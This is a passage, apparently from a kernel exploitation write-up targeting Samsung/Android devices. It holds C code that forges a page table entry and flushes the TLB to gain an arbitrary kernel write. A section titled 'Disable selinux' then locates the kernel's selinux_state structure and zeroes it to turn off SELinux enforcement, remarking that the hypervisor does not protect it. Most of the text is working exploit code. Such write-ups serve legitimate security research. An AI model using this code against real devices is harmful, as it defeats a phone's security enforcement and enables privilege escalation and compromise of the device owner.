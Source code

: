 ```C
	uint32_t off = addr & 0xfff;
	
	/* replace tlb cache */
	replace_tlb();
	
	uint64_t pte = ((virt_to_phys(addr) >> 12) << 12) | 0xe8000000000f43;
	*(uint64_t *) (victim + offset_pgt) = pte;
	
	/* replace tlb cache */
	replace_tlb();
	
	*(uint64_t *) (page + off) = data;
}
```

## Disable selinux

The struct `selinux_state` in this case is not protected by the [hypervisor](https://blog.impalabs.com/2101_samsung-rkp-compendium.html). We just have to do:

```C
struct selinux_state {
#ifdef CONFIG_SECURITY_SELINUX_DISABLE
	bool disabled;
#endif
#ifdef CONFIG_SECURITY_SELINUX_DEVELOP
	bool enforcing;
#endif
	bool checkreqprot;
	bool initialized;
	bool policycap[__POLICYDB_CAPABILITY_MAX];
	bool android_netlink_route;
	bool android_netlink_getneigh;

	struct page *status_page;
	struct mutex status_lock;

	struct selinux_avc *avc;
	struct selinux_policy __rcu *policy;
	struct mutex policy_mutex;
} __randomize_layout;

uint32_t phys_data = phys_base + KERNEL_DATA;
uint32_t phys_off = phys_base & 0xffffff;
uint64_t virt_kernel_base = VIRTUAL_KERNEL_START + phys_off;
uint64_t selinux_state = virt_kernel_base + KERNEL_DATA + SELINUX_STATE + OFF_SELINUX_STATE;

/* disable selinux */
write16(selinux_state, 0);
```

If it were protected, you could look at [this](https://github.com/yanglingxi1993/slides/blob/main/Asia-24-Wu-Game-of-Cross-Cache.pdf) talk.
